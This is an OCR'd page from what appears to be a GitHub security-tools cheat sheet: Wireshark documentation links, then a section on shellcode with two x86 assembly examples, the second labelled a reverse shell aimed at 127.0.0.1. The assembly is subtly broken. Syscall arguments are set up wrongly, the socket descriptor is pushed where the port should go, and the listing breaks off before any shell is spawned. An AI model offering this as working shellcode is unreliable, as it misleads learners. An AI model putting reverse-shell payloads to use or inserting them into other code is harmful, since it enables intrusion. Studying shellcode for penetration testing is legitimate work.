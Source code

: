     - [Official Documentation](https://www.wireshark.org/docs/)
    - [Wireshark User Guide](https://www.wireshark.org/docs/wsug_html/)

---

## Shell Code
- **Description:** Shell code refers to small code snippets written in assembly language that are used as payloads in software vulnerabilities for exploitation.
- **Utilization:** Shell code is used in penetration testing, exploit development, and understanding the process of code injection.
- **Use Cases:** Exploit development, penetration testing.
- **Example Code 1: Simple x86 Assembly Shellcode:**
    ```assembly
    global _start

    section .text
    _start:
        ; socket(AF_INET, SOCK_STREAM, 0)
        xor eax, eax
        xor ebx, ebx
        mov al, 0x66
        mov bl, 0x1
        xor ecx, ecx
        mov cl, 0x6
        xor edx, edx
        int 0x80
    ```
- **Example Code 2: Reverse Shell Shellcode:**
    ```assembly
    global _start

    section .text
    _start:
        ; socket(AF_INET, SOCK_STREAM, 0)
        xor eax, eax
        xor ebx, ebx
        mov al, 0x66
        mov bl, 0x1
        xor ecx, ecx
        mov cl, 0x6
        xor edx, edx
        int 0x80

        ; connect(s, struct sockaddr_in*, sizeof(struct sockaddr_in))
        xor ebx, ebx
        mov bx, ax
        xor eax, eax
        mov al, 0x66
        xor ecx, ecx
        push ecx
        push edx
        push 0x0100007F ; IP address 127.0.0.1
        push bx
        mov ecx, esp
        mov dl, 0x10
        int 0x80
